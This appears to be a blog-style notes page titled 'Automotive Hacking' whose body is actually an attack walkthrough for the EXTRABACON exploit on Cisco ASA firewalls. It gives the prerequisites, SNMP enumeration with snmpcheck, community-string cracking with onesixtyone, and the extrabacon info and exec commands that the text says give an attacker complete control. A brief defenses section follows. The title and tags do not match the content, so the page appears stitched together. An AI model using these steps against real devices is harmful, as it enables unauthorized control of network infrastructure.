 ```yaml
---
layout: post
title: Automotive Hacking
subtitle: Overview and Notes
cover-img: /assets/img/path.jpg
tags: [Automotive, Hacking, Security]
---
```


This exploit requires;
1. SNMP be enabled on the device
2. Knowledge of the community string in any version of SNMP (v1,v2,v3)
2. an attack with IPv4 packets only
4. Access to a system residing on the interface to the firewall


Steps- 
	• Get SNMP <IP> from Wireshark 
	• Use snmpcheck -t <IP>

Cracking SNMP community strings( if not set to "public")
	kali > onesixtyone 192.168.1.102 -c /usr/share/doc/onesixtyone/dict.txt
	
	
	kali > ./extrabacon info -t 192.168.1.101 -c hackers-arise
		This will return a file that we need in exec mode of EXTRABACON. Here, I have named that file OTW
	kali > ./extrabacon_1.1.0.1.py exec -k OTW -t 192.168.1.101 -c hackers-arise --mode pass-enable
		When the exploit is successful, it will execute the shellcode on the Cisco ASA firewall, giving the attacker complete control!
				
Defenses
Until Cisco releases a patch for this exploit, your best defenses are two.
1. Make your SNMP community string long and complex
2. Disable SNMP on the vulnerable device (no snmp-server enable)


For more info - [Reference](https://www.hackers-arise.com/post/2019/03/23/network-basics-for-hackers-simple-network-management-protocol-snmp-theory-reconnaissance)  
Zero Day - [NSA Exploit in CISCO ASA]( https://www.hackers-arise.com/post/2016/08/22/the-extrabacon-zero-day-exploit-on-cisco-asa-firewalls)  
Car Hacking with Python - [Medium](https://medium.com/bugbountywriteup/car-hacking-with-python-part-1-data-exfiltration-gps-and-obdii-can-bus-69bc6b101fd1)
